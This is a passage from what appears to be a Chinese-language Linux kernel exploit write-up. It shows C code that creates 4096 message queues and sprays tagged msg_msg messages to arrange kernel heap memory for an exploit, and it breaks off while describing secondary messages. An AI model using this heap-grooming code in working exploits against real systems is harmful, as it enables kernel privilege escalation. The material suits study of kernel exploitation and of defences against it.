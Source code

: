 **2.2 初步利用**

**2.2.1 创建4096个消息队列**

消息队列数目并没有限制，但是越多，exp稳定性会越强

```
for (int i = 0; i &lt; NUM_MSQIDS; i++) `{`
    if ((msqid[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666)) &lt; 0) `{`
      perror("[-] msgget");
      goto err_no_rmid;
    `}`
  `}`
```

**2.2.2 为主消息内存空间填充数据**

int msgsend(int msgid, const void *msg_ptr, size_t msg_sz, int msgflg)
- msgid是由msgget函数返回的消息队列标识符
- msg_ptr是一个指向准备发送消息的指针，但是消息的数据结构却有一定的要求，指针msg_ptr所指向的消息结构需要满足`{`long msg_type, char msg_buf[]`}`
为主消息空间填充两个标志位
- mtext[0] = MSG_TAG：用于标识该内存区域为堆喷控制
- mtext[4] = i：用于标识该内存区id，为后面识别内存区服务
主消息空间大小为1024bytes，标识每个msg_msg结构体占据一个内存页，这里主要是希望得到一个整齐的空间布局，使得msg_msg结构体之间尽可能相邻

在满足以上条件后将会得到以下内存布局

[![](https://p2.ssl.qhimg.com/t01544040c499796804.png)](https://p2.ssl.qhimg.com/t01544040c499796804.png)

```
int write_msg(int msqid, const void *msgp, size_t msgsz, long msgtyp) `{`
  *(long *)msgp = msgtyp;
  if (msgsnd(msqid, msgp, msgsz - sizeof(long), 0) &lt; 0) `{`
    perror("[-] msgsnd");
    return -1;
  `}`
  return 0;
`}`

printf("[*] Spraying primary messages...\n");
  for (int i = 0; i &lt; NUM_MSQIDS; i++) `{`
    memset(&amp;msg_primary, 0, sizeof(msg_primary));
    *(int *)&amp;msg_primary.mtext[0] = MSG_TAG;
    *(int *)&amp;msg_primary.mtext[4] = i;
    if (write_msg(msqid[i], &amp;msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) &lt;
        0)
      goto err_rmid;
  `}`
```

**2.2.3 为辅助消息内存空间填充数据**

为每个消息队列添加辅助消息(即为msg_msg-&gt;next开辟空间)

添加与同消息队列中主消息相同的标识
